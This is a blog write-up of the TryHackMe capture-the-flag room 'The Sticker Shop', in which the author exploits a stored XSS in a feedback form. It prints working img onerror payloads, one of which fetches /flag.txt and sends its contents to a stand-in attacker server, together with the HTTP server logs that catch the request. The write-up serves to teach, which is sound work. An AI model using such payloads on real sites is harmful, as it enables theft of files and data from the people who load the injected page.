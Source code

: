 ```yaml
---
title: "TryHackMe - The Sticker Shop"
author: Nasrallah
description: ""
date:2024-12-05 12:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, web, easy, xss]
img_path: /assets/img/tryhackme/thestickershop
image:
    path: thestickershop.png
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---

[The Sticker Shop](https://tryhackme.comr/r/room/thestickershop) from [TryHackMe](https://tryhackme.com/signup?referrer=603949780215185dfb191142) is a simple web challenge where we exploit an XSS vulnerability to read the flag.

## **Enumeration**

### Web

This is a web challenge and the website can be found on port 8080.

![website](/assets/img/tryhackme/thestickershop/1.png)

It's a sticker shop, nothing looks interesting on the home page, let's check the feedback page.

![feedback](/assets/img/tryhackme/thestickershop/2.png)

Here we can submit a feedback.

The first thing that comes to mind is to check if links are being clicked, so I entered my ip address but didn't receive anything on my http server.

Next thing is XSS, Trying multiple payloads I managed to get a hit with the following payload:

```js
<img src="nonexistent.jpg" onerror="fetch('http://10.8.81.165');">
```

```terminal
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.206.107 - - [03/Dec/2024 10:25:28] "GET / HTTP/1.1" 200 -  
```

Now we need to read the file located in `/flag.txt`.

With the help of ChatGPT and some trial and error we ended up with the following payload that reads the file.

```javascript
<img src="nonexistent.jpg" onerror="fetch('/flag.txt').then(r=>r.text()).then(d=>fetch(`http://your-attack-server.com?fileContent=${encodeURIComponent(d)}`));">
```

```terminal
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.206.107 - - [03/Dec/2024 10:35:16] "GET /?fileContent=THM%7B8[REDACTED]ee6%7D HTTP/1.1" 200 -
```

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---
